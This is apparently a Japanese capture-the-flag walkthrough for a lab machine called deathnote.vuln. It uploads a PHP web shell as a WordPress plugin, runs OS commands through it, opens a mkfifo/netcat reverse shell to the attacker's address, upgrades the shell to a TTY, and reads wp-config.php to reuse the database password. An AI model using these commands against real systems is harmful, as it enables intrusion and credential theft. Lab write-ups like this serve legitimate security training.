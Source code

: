 ### evil.zipを送り込む
- wordpressのダッシュボードのPluginsを選択します
- Add Newを押す,Upload Pluginを押す
- Browseを押してevil.zipを選択する
- install nowを押す。
- プラグイン一覧にPHP Web Shellが表示され、背景が青くなっていれば有効
- これでブラウザからOSコマンドインジェクションができる

### ブラウザからコマンドを実行する
- osコマンドインジェクションで`id`コマンドができることをテストする。
- `http://deathnote.vuln/wordpress/wp-content/plugins/evil/cmd.php?cmd=id`
  - パスにあるevilはuploadしたevil.zipファイルの名前
  - cmd.phpは圧縮前のファイル名
  - ?cmdはコードの中で指定したもの 
- 画面が切り替わって、idコマンドの実行結果が表示される。もし、ここで何も表示されなかったら、evil.zipが間違っているので戻る

### リバースシェルの待受をする
- `nc -nlvp 4444`

### リバースシェルのセッションを確立する
- 次のコードをメモか何かに書く、ipアドレスは自分のParrot側の
- `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.56.101 4444 > /tmp/f`
- 上のをコピーする`https://www.urlencoder.org`でencodeしてコピー
- `http://deathnote.vuln/wordpress/wp-content/plugins/evil/cmd.php?cmd=~`
- `~`のところにエンコードしてコピーしたのを貼り付けてブラウザでアクセスするとシェルを取得できる
- 画面が真っ白になって、リバースシェルの待受に反応があれば成功 

### TTYシェルを奪取する
- インタラクティブシェルかを確認
  - `echo $-`
  - `i`が入っていればインタラクティブシェル 
- `python3 -c 'import pty; pty.spawn("/bin/bash")'`

### (補足)完璧なシェルを目指す
- `python -c 'import pty;pty.spawn("/bin/bash")'`
- `export TERM=xterm-256color`
- `ctrl + z`でバックグランドで起動させる
- `stty raw -echo;fg`
- `stty rows 38 columns 116`
  - カーソルが真ん中に行ったり、文字がカブったりするが無視してコマンドを打つ 

### WordPressの設定ファイルを確認する
- `cd /var/www/deathnote.vuln/wordpress`
  - 設定ディレクトリはwordpressにある
- `ls`
- `cat wp-config.php`  
- データベースへのアクセスに必要な情報がある
  - user:l
  - password:death4me
### ユーザを切り替える
- 本来はSQLのユーザ名とパスワードだが使い回しているかもしれない
- `su l`
